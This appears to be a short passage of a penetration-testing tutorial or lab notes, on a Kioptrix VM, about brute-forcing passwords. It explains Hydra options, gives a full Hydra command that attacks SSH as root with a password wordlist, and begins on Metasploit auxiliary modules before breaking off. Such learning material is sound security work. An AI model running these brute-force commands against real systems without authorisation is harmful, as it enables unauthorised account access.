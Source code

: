 ## Hydra

The syntax of bruteforcing a particular protocol with Hydra goes like these: 

- **hydra -l(to specify a single username) -L(to specify a username wordlist) -p(to specify a password) -P(to specify a password wordlist) `<protocol>://<ip>:<port>` -t(for threads) -V(for verbosity)**
- ``<protocol>://<ip>:<port>`` Should be something like these `ssh://192.168.0.1:22`, note that port isn't necessary, therefore you whole syntax should be:

┌──(sec-fortress㉿kali)-[~/kioptrix]
└─$ hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://172.16.216.130 -V -t 5

## Metasploit

we can also use metasploit to bruteforce passwords, but this time you need to specify to search for keywords, not just keywords, but **protocols**, something like:

- `use ftp` should give us:

![](https://i.imgur.com/imMGqZt.gif)

Note that when performing attacks like this, you should watch out for **Auxiliary** 